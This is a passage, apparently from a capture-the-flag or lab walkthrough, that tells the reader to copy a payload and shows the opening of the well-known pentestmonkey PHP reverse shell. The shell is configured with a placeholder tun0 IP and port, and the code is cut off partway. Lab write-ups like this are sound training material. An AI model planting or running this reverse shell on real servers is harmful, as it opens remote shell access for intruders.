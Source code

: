 ![shell](./Screenshots/includedshell.png)

Copy the payload, it should look like this:

```
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '{your tun0 ip}';
$port = {port of your choice};
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
```
